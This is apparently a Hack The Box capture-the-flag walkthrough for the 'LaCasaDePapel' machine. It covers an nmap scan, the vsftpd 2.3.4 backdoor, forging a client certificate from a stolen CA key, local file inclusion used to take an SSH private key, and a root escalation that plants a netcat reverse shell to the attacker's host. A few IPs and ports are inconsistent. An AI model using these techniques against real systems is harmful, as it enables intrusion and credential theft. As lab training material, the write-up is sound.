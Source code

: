 # LaCasaDePapel

## User

### Scan
`nmap -sC -sV 10.10.10.131`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-20 17:14 GMT
Nmap scan report for 10.10.10.131
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.68 seconds
```
### FTP Backdoor
`vsftpd.3.2.4` returns some interesting search results. I tried running a Metasploit exploit that didn't work, but then I read up on the smiley-face backdoor. Apparently a backdoor was discovered in this version that would allow a user, `:)` to open a shell on port 6200 without authentication. So, try `ftp 10.10.10.130` and input a blank password. The `ftp` session will hang, but `nc 10.10.10.130 6200` should work. 

### PsyShell and Certificate Generation
Using the FTP backdoor gets us access to PsyShell, an interactive PHP environment. The `help` command is a good place to get started. There are a few commands available like `ls`, which will tell us if there are any predefined values. `ls` shows us that there is a value called `$tokyo`. `ls -la $tokyo` tells us that there is a sigining function that looks like it has something to do with SSL. Now is probably a good time to go check out the webpages and see why we might need to use this signing function.

`http://10.10.10.131` has an interesting authentication token QR code. I messed around with it for a little bit, but didn't get anywhere. However, the HTTPS version of the site requires a client certificate.

![Certificate Error](images/cerror.png "Img")

It seems like the `Tokyo` class from PsyShell might help us generate that certificate. It needs a Certificate Signing Request and a CA Certificate as parameters. To get a closer look at how the signing function works, we can use the `show` command.

NOTE: If you want to get a nicer shell, see if you can add your public key to the `dali` user's SSH `authorized_keys` file. When writing to a file with PHP, use the FILE_APPEND option to avoid overwriting other htb user keys. 

![Tokyo Class](images/tokyo.png "Img")

The source code shows us that the sign function simply uses OpenSSL to sign a certificate using a private key. We should be able to access it with:
```
$key = readfile('/home/dali/ca.key')
```
The key will be displayed for you to copy/paste to your own machine. Now we just need a CSR and a CA Certificate in order to generate a client certificate. [This](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs) article has a great introduction to generating certificates with OpenSSL. Here are the steps for generating a signed certificate to access the HTTPS site:
1. Generate a key and CSR
```
openssl req -newkey rsa:2048 -nodes -keyout mykey.key -out mycsr.csr
```
2. Get CA Certificate from website

Go to `https://10.10.10.131` in Firefox, click on the lock icon > More Information > View > Details > Export. 

3. Generate signed certificate
```
openssl x509 -req -in mycsr.csr -CA cacert.crt -CAkey ca.key -CAcreateserial -out signed.crt -days 365 -sha256
```

4. Convert signed certificate into a format that Firefox can use
```
openssl pkcs12 -export -in signed.crt -inkey mykey.key -out signed.p12
```

5. Import certificate into Firefox

In Firefox, click on the hamburger menu > Preferences > Privacy & Security > View Certificates > Your Certificates > Import. Import the newly created .p12 file.

Firefox should then give the option to provide a certificate to the website and a new screen will appear.

![Private Area](images/pa.png "Img")

### Local File Inclusion
Clicking on SEASON-1 or SEASON-2 will allow for the download of video files. The URL bar at the top will show `https://10.10.10.131/?path=SEASON-1`. This is usually a good place to test for [Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion). Mess around with the path and see if you can find anything interesting.

Changing the URL to `https://10.10.10.131/?path=../` shows that this box is clearly not validating the input and we can see the contents of a user's home directory. Including `user.txt`!

![Home](images/home.png "Img")

Unfortunately, we can't download the `user.txt` file like the videos. Since the path argument isn't validated, maybe the request to download the video files is also not validated. To intercept the request, [set up Burp](https://support.portswigger.net/customer/en/portal/articles/1783066-configuring-firefox-to-work-with-burp) to work with Firefox. You will have to add the generated certificate to Burp in Project Options > SSL > Client SSL Certificates to get it to work. 

Intercept has to be turned on, and then we can view the request generated by attempting to download a video file. At the top of the request we can see thefile is retrieved with `GET /file/U0VBU09OLTEvMDEuYXZp`. This looks like base 64 encoding, which we can test with:
```
echo 'U0VBU09OLTEvMDEuYXZp' | base64 -d
SEASON-1/01.avi
```
So if we want to attempt to download `user.txt`, we can encode the path and then make a request with burp.
```
echo -n "../user.txt" | base64
Li4vdXNlci50eHQ=
```
Copy that encoded file to Burp and watch the `user.txt` download take place!
```
4dcbd172fc9c9ef2ff65c13448d9062d
```

## Root

### SSH Key
Another file you may have seen is the `.ssh` folder in the same directory as `user.txt`. This folder contains an `id_rsa` file. This is significant because it is a private SSH key for passwordless login to the server. Using the same method as above, this file can be downloaded.
```
echo -n "../.ssh/id_rsa" | base64
Li4vLnNzaC9pZF9yc2E=
```
Now we have a private SSH key! If we're lucky, we might be able to finally get a shell on this box. Get back to PsyShell and see what users are available.
```
$users = glob('/home/*')
=> [
     "/home/berlin",
     "/home/dali",
     "/home/nairobi",
     "/home/oslo",
     "/home/professor",
   ]
```
We can try and SSH into each user with `ssh -i id_rsa username@10.10.10.131`. After trying each one, it turns out that this is the private key for the `professor` user and we now have an Almquist Shell on the box.  

### Exploiting Node
In the home folder of `professor` there is an interesting file, `memcached.ini`:
```
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```
This is interesting because `ps aux | grep nobody` makes it clear that this is being run every minute or so. It frequently shows up with a new pid. If we can get root to run a modified version of this file then we can own the box.

`ls -l` shows us that root owns the file and we cannot write to it. However, we could rename the file and make our own.
1. `mv memcached.ini memcached.ini.bak`
2. `nc -lvp 222` on the attacking machine
3. `vi memcached.ini` on the victim machine
```
[program:memcached]
command = sudo nc 10.10.XX.XX 2222 -e /bin/ash
```
Saving this new file and waiting for a little while should open a new shell as root on the attacking machine!
```
cat root/root.txt
586979c48efbef5909a23750cc07f511
```
